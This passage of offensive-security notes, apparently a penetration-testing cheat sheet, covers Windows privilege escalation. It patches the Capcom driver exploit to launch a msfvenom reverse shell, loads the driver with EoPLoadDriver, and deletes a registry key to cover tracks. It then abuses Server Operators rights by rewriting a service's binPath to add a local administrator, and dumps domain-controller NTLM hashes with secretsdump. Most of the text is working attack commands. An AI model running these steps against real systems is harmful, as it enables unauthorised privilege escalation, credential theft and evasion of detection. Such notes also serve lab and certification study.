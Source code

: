 ##### No Gui
Modify campcom.cpp before compiling.
Edit line 292 and replace C:\\Windows\\ System32\\cmd.exe with a msfvenom reverseshell.exe
```shell-session
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```
Automating [EopLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)
```shell-session
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

#### Cover tracks
Remove Registry Key
```shell-session 
reg delete HKCU\System\CurrentControlSet\Capcom
```

## [Server Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#bkmk-serveroperators)
Allows members to administer servers without needed domain admin

### SeBackupPrivilige  and SeRestorePrivilige 
#### Exploit these privileges to control local services: 
Query the app readiness service
```cmd
sc qc AppReadiness
```
Check run as Local System
Check Service Permissions using PsService
```cmd
<Directory>\PsService.exe security AppReadiness
```
SERVICE_ALL_ACCESS ? Full control over service. 
ALLOW NT AUTHORITY\ SYSTEM
Check Local Admin Group 
```cmd
net localgroup Administrators
```
Modify the Service Binary Path 
```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
Start the Service 
```cmd
sc start AppReadiness
```
Confirm Admin Access 
```cmd
net localgroup Administrators
```
Confirm Local Admin access on DC
on kali machine:
```bash
crackmapexec smb <IP> -u server_adm -p <password>
```
Retrieve NTLM hashes from DC 
on Kali: (impacket)
```bash
secretsdump.py server_adm<IP> -just-dc-user administrator
```
